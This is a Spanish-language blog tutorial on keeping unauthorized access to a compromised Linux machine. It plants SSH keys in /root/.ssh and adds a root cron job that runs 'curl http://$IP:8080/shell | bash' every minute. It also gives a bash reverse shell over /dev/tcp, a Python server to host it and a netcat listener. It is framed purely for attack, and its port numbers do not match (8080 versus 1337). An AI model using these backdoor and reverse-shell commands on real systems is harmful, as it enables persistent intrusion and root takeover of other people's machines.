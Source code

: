 ```yaml
---
title: Accesos no autorizados en Linux - Info
published: true
---
```


# [](#header-1)Introducción
Este post está dedicado para aprender técnicas comunes para puertas traseras en linux. Basicamente un backdoor es algo que podemos hacer para garatizarnos de poder acceder al sistema de manera constante. Aunque la máquina se apague o se reinicie podremos seguir teniendo acceso.

Obviamente esto no es una vulnerabilidad, si no que son técnicas para mantenernos con acceso al objetivo.
## [](#header-2) Puertas traseras en SSH
Esta es nuestra primera técnica que veremos, ssh backdoors.
Principalmente, esto consiste en dejar nuestras llaves ssh en el directorio de inicio de un usuario. En la mayoría de casos, el directorio sería en el de root. ¿Por qué? Porque es el usuario con mayores privilegios. Para poder hacer eso, tenemos que crear un conjunto de llaves ssh con el comando `ssh-keygen`.

> ![image](https://github.com/cerodah/blog/assets/82907557/2dfda856-50c8-4627-a567-7928c02a7abe)

Ahora que tenemos la llave publica y la privada podemos dejarla en /root/.ssh. No olvides cambiar el nombre de la llave publica, normalmente tiene como extension `.pub`, a authorized_keys. Si el directorio no existe, simplemente crealo con `mkdir -p /root/.ssh`. El parametro `-p` asegurará que se cree el directorio ".ssh" en root y si existe, no generará ningún error por pantalla.

Lo más seguro es que tenga que otorgar los permisos necesarios a la llave privada para que la llave sea accesible solamente para el propietario y nadie más (además ssh se quejará si no lo hacemos...). Con el comando `chmod 600 id_rsa` se hace.
Hay que tener algo que en cuenta. Este "backdoor" no está oculto en absoluto, ya que cualquier usuario con permisos necesarios podrá eliminar tanto nuestra llave pública (authorized_keys) como nuestra llave privada!
## [](#header-2) Puertas traseras en Cronjobs
Ahora que hemos visto una técnica, ¿por qué no pasar a la otra?. Este método consiste en crear una tarea. 
En Linux las cronjobs (trabajos cron) son tareas programadas que se ejecutan automáticamente a intervalos especificados por el usuario. Como dato, este término se denomina así ya que viene de un servicio de planificación de tareas en sistemas de tipo Linux y Unix.
Esto es bastante útil ya que se puede aprovechar para hacer backups cada x tiempo, actualizaciones y ejecuciones de scripts. 

Ese archivo se encuentra en la ruta `/etc/crontab` y si miramos lo que hay, seguramente encuentre algo parecido a esto: 
> ![image](https://github.com/cerodah/blog/assets/82907557/23133ff3-c9c6-4e36-a98c-1a33759a9a4b)

Una vez que haya obtenido acceso a cualquier host podrá usted mismo agregar su propia tarea.
Si mira bien puede ver que está el simbolo (*) presente al lado del numero 17, esto significa que la tarea se ejecutará cada hora. Pues bien , para aprovecharnos podemos agregar esta linea a nuestro archivo cronjob
```bash
* *     * * *   root    curl http://$IP:8080/shell | bash
```
Si se fija he puesto varios "*". ¿Por qué? Así, le estamos diciendo que queremos que nuestra tarea se ejecute cada minuto. (cada minuto de cada hora, todos los días, todos los meses y todos los días de la semana). Despues indicamos al usuario en el que se ejecutará la tarea, en este caso, es root. Después con curl realiazamos una petición HTTP a la URL "http://$IP:1337/shell" y finalmente con la tubería (|) pasamos la salida de curl como entrada de bash. Dentro de el archivo shell esta este código.
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/puerto 0>&1
```
Para que esto funcione el archivo debe de ser cargado en algún sitio y porque no utilizar python. 
```python
python3 -m http.server 8080
```
Tampoco olvides estar escuchando por el puerto 1337 con netcat.
> ![image](https://github.com/cerodah/blog/assets/82907557/3a314627-6f1e-4323-b000-98e5914e05af)

Como se puede observar en la terminal derecha, al estar esperando un minuto a llegado momento en el que el archivo crontab haga su trabajo y nos de una sesión como root! 


